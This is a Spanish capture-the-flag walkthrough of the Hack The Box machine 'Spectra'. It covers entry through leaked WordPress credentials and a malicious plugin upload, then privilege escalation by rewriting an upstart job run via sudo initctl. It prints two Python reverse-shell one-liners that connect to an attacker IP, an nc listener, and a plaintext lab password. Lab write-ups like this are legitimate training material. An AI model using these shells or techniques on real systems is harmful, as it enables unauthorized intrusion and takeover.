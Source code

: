#by d4l1

<p align="center"><img src=""></p>

<h1 align="center">Spectra</h1>

# ÍNDICE

# INTRODUCCIÓN

Spectra es una máquina linux de dificultad fácil el que contiene un software de tracking construido en Wordpress. Este servidor lista un directorio con credenciales en el cual ganaremos acceso al manager de administrador. Construyendo un plugin malicioso

Enumerando unas nuevas credenciales y capturandolas para coger otoro usuario. Finalmente un problema de configuración permite hacer acciones de sudo en los servicios y ganado el root.

Primero de todo tes de conectividad

![image](https://github.com/D4l1-web/HTB/assets/79869523/0607b6f2-0635-4c7b-8aec-8c8292e95689)

Escaner de puertos

![image](https://github.com/D4l1-web/HTB/assets/79869523/b4391565-6aa4-4a3d-b862-e2e3d3cfe930)

Como podemos ver nos encontramos cono un servicio SSH, Nginx y un MySQL en los puertos por defecto. No hemos mencionado que la versión de nginx es vulnerable a RCE

Podemos irnos al puerto 80 y ver la página y veremos a que tenemos acceso

![image](https://github.com/D4l1-web/HTB/assets/79869523/dd1fc5e4-d199-4667-abdb-dc10130caf2e)

Nos encontramos si busacmos en el dominio "spectra.htb"

```
echo "ip spectra.htb" | sudo tee -a /etc/hosts
```

Si nos vamos al dominio encontramos esto 

![image](https://github.com/D4l1-web/HTB/assets/79869523/0e565c34-c008-472a-8578-0db391ea019a)

Encontramos el directorio /testing/ que es importante

![image](https://github.com/D4l1-web/HTB/assets/79869523/d707a2a2-45aa-4fc3-a082-ca99668b4b95)

De todo la vida el wp-config.php estan las credenciales veamos, vemos que ha sido editado y hay otro archivo con un .save

![image](https://github.com/D4l1-web/HTB/assets/79869523/c47fc130-5897-4bb0-8ff0-33f2452a17cb)

Si probamos con las credenciales que nos dan nos da error, pero si en el usuario ponemos "administrator" nos deja entrar 

![image](https://github.com/D4l1-web/HTB/assets/79869523/98e19537-2512-4f59-ba44-a583b95a95bc)

Teniendo privilegios de administrador en una instancia de Worpress, hace que tengamos muchas tecnicas que puedan dar una ejecución de comando en el servidor. Un metodo es subir un plugin malicioso y guardarlo como wp-maintenance.php

![image](https://github.com/D4l1-web/HTB/assets/79869523/68907b04-ab02-42a7-83c3-63ad4b1a6163)

Una vez creado el archivo podemos irnos a plugins y añadir uno elegir el archivo e instalarlo

![image](https://github.com/D4l1-web/HTB/assets/79869523/28fbafb1-3d32-45b1-8d02-8a2d8d844f90)

Nos da error vamos a probar a comprimirlo

![image](https://github.com/D4l1-web/HTB/assets/79869523/277ebbf7-5426-44bb-a527-4a1740b57de9)

![image](https://github.com/D4l1-web/HTB/assets/79869523/f674863f-cea3-4929-b0db-7020f94287e3)

![image](https://github.com/D4l1-web/HTB/assets/79869523/7dc8fd01-cd5a-4247-9aaa-1af07ad94934)

Ahora nosotros podemos navegar a esa url y probar si podemos ejecutar comandos

![image](https://github.com/D4l1-web/HTB/assets/79869523/8e40edb7-f7d7-42b2-bf80-cab642dee3fd)

Podemos hacer una revershe shell con python

```
cmd=python -c 'import
socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.
10.14.3",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Nos conectamos y conseguimos una buena shell

```
# In the reverse shell
SHELL=/bin/bash script -q /dev/null
Ctrl-Z
# In Parrot
stty raw -echo
fg
reset
xterm
# In the reverse shell
export SHELL=bash
export TERM=xterm-256color
stty rows 24 columns 150
```

Si hacemos una enumeracion por /home/user/ podemos encontrar archivos de usuarios y hashes también tneemos backups dentro de /backups/user_profiles que pueden leer los usuarios

Vamos a hacer enumeraciones de servicio como ftp 
```
grep -R ftp://
```

encontramos un 00089.log y le hacemos cat, encontramos una contraseña del usuario katie
```
ssh katie@ip
```
Tambien tenemos otro archivo que nos dice literalmente la pass en la ruta /etc/autologin/passwd

```
SummerHereWeCome!!
```

cuando hacemos un sudo -l para ver los permisos encontramos una ruta "/sbin/initctl"

Buscando este tipo de archivos se encunetran en el directorio /srv
```
find / -group developers 2>/dev/null
```

este contenido tiene los test del servidor
```
ls -al srv/
```

```
cat srv/nodetest.js
```
Encontramos un js que crea un servidor 

si vemos la ejecución y a donde va tenemos permisos de escritura y ejecución 

![image](https://github.com/D4l1-web/HTB/assets/79869523/2ec39131-fadf-48ce-b107-36f6f07f17eb)

Encontramos esto 
```
katie@spectra ~ $ cat /etc/init/test.conf
description "Test node.js server"
author "katie"
start on filesystem or runlevel [2345]
stop on shutdown
script
export HOME="/srv"
echo $$ > /var/run/nodetest.pid
 exec /usr/local/share/nodebrew/node/v8.9.4/bin/node /srv/nodetest.js
end script
pre-start script
echo "[`date`] Node Test Starting" >> /var/log/nodetest.log
end script
pre-stop script
rm /var/run/nodetest.pid
echo "[`date`] Node Test Stopping" >> /var/log/nodetest.log
end script
```

Busquemos "upstart initctl"

Descubrimos como trucar el "inictl" para remplazar el contenido
```
start on pwn
task
exec
```
Si esto funciona simplemente ejecutamos una reverse shell dentro del código "script"

```
script

    exec python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.7",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
    export HOME="/srv"
    echo $$ > /var/run/nodetest.pid
    exec /usr/local/share/nodebrew/node/v8.9.4/bin/node /srv/nodetest.js

end script
```

```
nc -lvnp 443
```

GG








